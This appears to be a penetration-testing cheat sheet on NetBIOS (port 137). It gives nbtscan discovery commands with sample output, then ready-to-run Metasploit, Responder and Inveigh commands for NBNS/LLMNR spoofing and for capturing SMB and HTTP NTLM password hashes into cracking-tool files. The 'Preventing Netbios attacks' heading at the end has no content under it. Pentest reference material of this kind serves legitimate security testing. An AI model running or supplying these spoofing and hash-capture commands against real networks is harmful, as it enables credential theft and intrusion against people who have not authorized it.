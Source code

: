 # 137 - Netbios

### Broadcast discovery

```
nbtscan 172.18.2.0/24
	
172.18.2.9:GCDTA0000:00U
172.18.2.9:WORKGROUP:00G
172.18.2.9:GCDTA0000:20U
172.18.2.9:MAC:00-23-7d-aa-72-c2
```

### nbt-wizz version version:

Download:

```
wget http://www.unixwiz.net/tools/nbtscan-1.0.35-redhat-linux
```

```
root@Kali:~/Downloads# ./nbtscan-1.0.35-redhat-linux -A 192.168.0.15 
192.168.0.38    WORKGROUP\DOOKOSSEL             SHARING 
  DOOKOSSEL      <00> UNIQUE Workstation Service 
  DOOKOSSEL      <03> UNIQUE Messenger Service<3> 
  DOOKOSSEL      <20> UNIQUE File Server Service 
  ..__MSBROWSE__.<01> GROUP  Master Browser 
  WORKGROUP      <00> GROUP  Domain Name 
  WORKGROUP      <1d> UNIQUE Master Browser 
  WORKGROUP      <1e> GROUP  Browser Service Elections 
  00:00:00:00:00:00   ETHER
```

### Netbios Spoofing

#### Metasploit

```
use auxiliary/server/capture/smb
set CAINPWFILE /netbios/cain.
set JOHNPWFILE /netbios/john. 

set LOGFILE /netbios/SMB_LOG.txt
set SRVHOST 10.222.101.213
run
	
use auxiliary/server/capture/http_ntlm
set CAINPWFILE /netbios/cain-http
set JOHNPWFILE /netbios/john-http
set SRVHOST 10.222.101.213
set SRVPORT 80
set URIPATH /
run
	
use auxiliary/spoof/nbns/nbns_response
set INTERFACE eth0
set SPOOFIP 10.222.101.213
run
```

### Capture Netbios broadcasts

#### Responder

```
sudo python3.9 /usr/share/responder/Responder.py -I eth0 -w -f -v
```

#### Inveigh - (Powershell Responder)

requires privileged user.

https://n0where.net/windows-powershell-llmnrnbns-spoofer-inveigh\
https://github.com/Kevin-Robertson/Inveigh

```
cd C:\Users\Leon\powermenu\Inveigh\Inveigh-master
Import-Module .\Inveigh.psm1
```

To execute with default settings

```
Invoke-Inveigh
```

To execute with features enabled/disabled

```
Invoke-Inveigh -LLMNR Y -NBNS Y -HTTP Y -HTTPS Y -SMB Y -ConsoleOutput Y -IP <yourIP>
```

You must Stop Inveigh manually

```
Stop-Inveigh
```

### Preventing Netbios attacks
